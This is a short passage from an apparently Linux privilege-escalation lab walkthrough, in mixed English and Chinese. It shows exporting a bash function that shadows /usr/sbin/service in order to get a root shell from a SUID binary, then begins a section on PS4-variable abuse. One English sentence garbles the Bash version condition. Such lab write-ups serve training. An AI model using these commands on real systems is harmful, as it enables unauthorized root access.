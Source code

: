 ```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:

```
/usr/local/bin/suid-env2
```

![](img/b0ba84495d8b06d17ba005beb23349ad.png)

# Task 15: SUID / SGID Executables -Abusing Shell Features (#2)

so, in bash versions less than 4.4 and above, we could define the PS4 variable to display an extra prompt for debugging statements in debugging mode.

![](img/07f847c0637013cef8274160969fa306.png)

*注意:这在 Bash 版本 4.4 和更高版本上不起作用。*

在调试模式下，Bash 使用环境变量 **PS4** 来显示调试语句的额外提示。
